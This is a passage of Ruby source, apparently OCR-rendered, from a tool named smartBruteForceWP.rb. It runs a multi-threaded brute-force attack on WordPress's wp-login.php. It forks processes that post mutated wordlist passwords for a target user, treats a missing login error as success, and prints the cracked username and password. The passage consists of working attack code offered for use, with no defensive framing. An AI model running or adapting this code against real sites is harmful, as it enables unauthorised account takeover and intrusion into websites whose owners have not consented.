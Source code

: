       # to log in with our word.  Bail on success.
      pids = []
      wordct = 0
      url = 'http://' + options.host + options.path

      @options.logger.debug("Brute forcing #{url} with #{@options.threads} threads")

      query = {:log => options.user, 'wp-submit' => "Log In"}

      list.each_mutation do |word|
        wordct = wordct.succ

        # Only allow options.threads to run at once
        if pids.size >= @options.threads.to_i
          pid = Process.wait

          exit if ($?.exitstatus == 1)
          pids.delete pid
        end

        pids << fork do
          query[:pwd] = word

          @options.logger.debug("#{query.inspect}")

          if Ronin::Web.post(url, :query => query).parser.css('#login_error').size == 0
            # Now it is safe to bail on all the threads.
            puts "username:#{options.user}, password:#{word}"
            exit 1
          end
        end
      end

      pids.each do  |pid|
        Process.waitpid pid

        exit if ($?.exitstatus == 1)
      end

      puts "Tried #{wordct} passwords and was unable to login."
    else 
      output_usage 
    end 
  end 

  protected

  def build_mutations!(list)
    @mutations.each { |key, val| list.mutate key, val }
  end

  def parsed_options?
    begin
      @opts = OptionParser.new
      @opts.banner = "Usage: smartBruteForceWP.rb [options]"

      @opts.on("-v", "--[no-]verbose", "Run verbosely") do |v|
          @options.verbose = v
      end

      @opts.on("-t=THREADS", "Specify the number of concurrent requests we should make.") do |t|
        @options.threads = t
      end

      @opts.on("-p=PATH", "Specify the PATH to wp-login.php.") do |p|
        @options.path = p